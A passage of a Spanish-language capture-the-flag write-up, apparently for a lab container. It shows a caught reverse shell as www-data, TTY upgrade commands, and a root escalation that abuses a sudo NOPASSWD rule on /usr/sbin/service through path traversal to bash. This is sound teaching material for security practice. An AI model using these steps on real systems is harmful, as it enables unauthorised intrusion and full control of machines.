 Y ya estaríamos dentro:

```
listening on [any] 4444 ...
connect to [192.168.16.128] from (UNKNOWN) [172.17.0.2] 52848
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Mejora del TTY
Ahora haremos el tratamiento de la TTY como siempre:

```bash
script /dev/null -c bash
# Ctrl + Z (para suspender la terminal)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
reset
```

Listo, ahora escalaremos los privilegios.

### Escalada de privilegios
Ejecutaremos `sudo -l`:

```bash
sudo -l
```

```
Matching Defaults entries for www-data on 0648c50d794d:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty

User www-data may run the following commands on 0648c50d794d:
    (ALL) NOPASSWD: /usr/sbin/service
www-data@0648c50d794d
```

Podemos ver que podemos ejecutar el binario `/usr/sbin/service` sin contraseña, así que nos aprovecharemos de eso para escalar privilegios:

```bash
sudo /usr/sbin/service ../../bin/bash
```

Y por último verificamos quiénes somos:

```bash
whoami
# root
```

